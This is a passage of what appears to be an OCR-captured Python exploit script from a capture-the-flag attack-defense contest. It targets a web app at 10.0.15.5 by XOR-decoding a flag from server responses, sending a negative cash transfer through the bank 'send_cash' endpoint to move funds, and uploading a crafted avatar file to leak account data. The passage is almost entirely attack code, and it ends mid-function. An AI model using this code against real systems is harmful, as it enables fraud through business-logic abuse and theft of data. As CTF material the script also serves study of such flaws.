 ```bash
        # for ($i = 0; $i < $n; $i++) {
        # $out.= chr(ord($key[$i % $n1]) ^ ord($string[$i % $n2]));
        # }
        # return $out;
        i = 0
        while i < n:
            a = ord(key[i % n1]) ^ ord(byte[i % n2])
            flag += chr(a)
            i += 1
        print(flag)
        # out
        return flag

    data = res[16 * 3 + 8:16 * 3 + 8 + 32]
    # print(data)
    flag = dec(key, data)
    return flag


def trans(ip, to_user='moxiaoxi2', cash='-1'):
    paramsGet = {"op": "send_cash", "action": "bank"}
    paramsPost = {"to_user": to_user, "reason": "1", "submit": "Submit", "cash": cash}
    headers = {"Origin": "https://10.0.15.5",
               "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3",
               "Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1",
               "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.80 Safari/537.36",
               "Referer": "https://10.0.15.5/?action=bank&op=send_cash", "Connection": "close",
               "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8",
               "Content-Type": "application/x-www-form-urlencoded"}
    response = session.post("https://{}".format(ip), data=paramsPost, params=paramsGet, headers=headers)

    # print("Status code:   %i" % response.status_code)
    # print("Response body: %s" % response.content)
    if 'Send cash success' in response.content:
        print('Send cash success!')
        return True
    print("Send cash failed!")
    return False


def check_mony(ip,data='test'):
    paramsGet = {"op": "profile", "action": "user"}
    paramsPost = {"hash_algo": "sha1", "password": "", "info": ""}
    paramsMultipart = [('avatar', ('1.txt', data, 'application/png'))]
    headers = {"Origin": "https://10.0.15.5",
               "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3",
               "Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1",
               "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.80 Safari/537.36",
               "Referer": "https://10.0.15.5/?action=user&op=profile", "Connection": "close",
               "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8"}
    response = session.post("https://{}/".format(ip), data=paramsPost, files=paramsMultipart, params=paramsGet,
                            headers=headers)

    # print("Status code:   %i" % response.status_code)
    # print("Response body: %s" % response.content)
    res = response.content
    m = res.split('moxiaoxi:')[1].split('</a>')[0]
```